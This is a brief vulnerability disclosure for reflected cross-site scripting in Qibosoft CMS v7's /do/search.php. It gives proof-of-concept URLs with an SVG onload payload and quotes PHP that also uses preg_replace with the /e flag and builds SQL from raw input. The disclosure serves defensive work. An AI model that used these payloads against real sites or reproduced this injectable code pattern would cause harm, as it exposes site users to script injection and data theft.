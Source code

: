 
# Qibosoft v7 -  cross Site Scripting (Vulnerability Impact version<=7,Qibosoft CMS)




The vulnerability was discovered by test the program's locally and online deployment tests.      

the <B>eindtijd</B> and <B>starttijd</B> parameters on  <B>""/do/search.php""</B> is vulnerable by cross site scripting. 

using this vulnerability an attacker can use XSS to send a malicious script to an unsuspecting user. 




### Location: 

<html>
/do/search.php

</html>



### POC: 
```

domain/do/search.php?starttijd='"--><Svg OnLoad=confirm(0)> 

domain/do/search.php?eindtijd='"--><Svg OnLoad=confirm(0)>


```


### vulnerable code: 

```
if($starttijd&&$eindtijd){
		$starttijd=preg_replace("/([\d]+)-([\d]+)-([\d]+) ([\d]+):([\d]+):([\d]+)/eis","mk_time('\\4','\\5', '\\6', '\\2', '\\3', '\\1')",$starttijd);
		$eindtijd=preg_replace("/([\d]+)-([\d]+)-([\d]+) ([\d]+):([\d]+):([\d]+)/eis","mk_time('\\4','\\5', '\\6', '\\2', '\\3', '\\1')",$eindtijd);
		if($starttijd<$eindtijd){
			$SQL.=" AND A.posttime>'$starttijd' AND A.posttime<'$eindtijd'";
		}else{
			showerr("时间格式不对");
		}
	}
	if($starttijd){
		$starttijd=preg_replace("/([\d]+)-([\d]+)-([\d]+) ([\d]+):([\d]+):([\d]+)/eis","mk_time('\\4','\\5', '\\6', '\\2', '\\3', '\\1')",$starttijd);
		$SQL.=" AND A.posttime>'$starttijd'";
	}
	if($eindtijd){
		$eindtijd=preg_replace("/([\d]+)-([\d]+)-([\d]+) ([\d]+):([\d]+):([\d]+)/eis","mk_time('\\4','\\5', '\\6', '\\2', '\\3', '\\1')",$eindtijd);
		$SQL.=" AND A.posttime<'$eindtijd'";
	}

```



### Source Code:
http://down.qibosoft.com/down.php?v=v7


### Discoverd by Mohammed Alorf
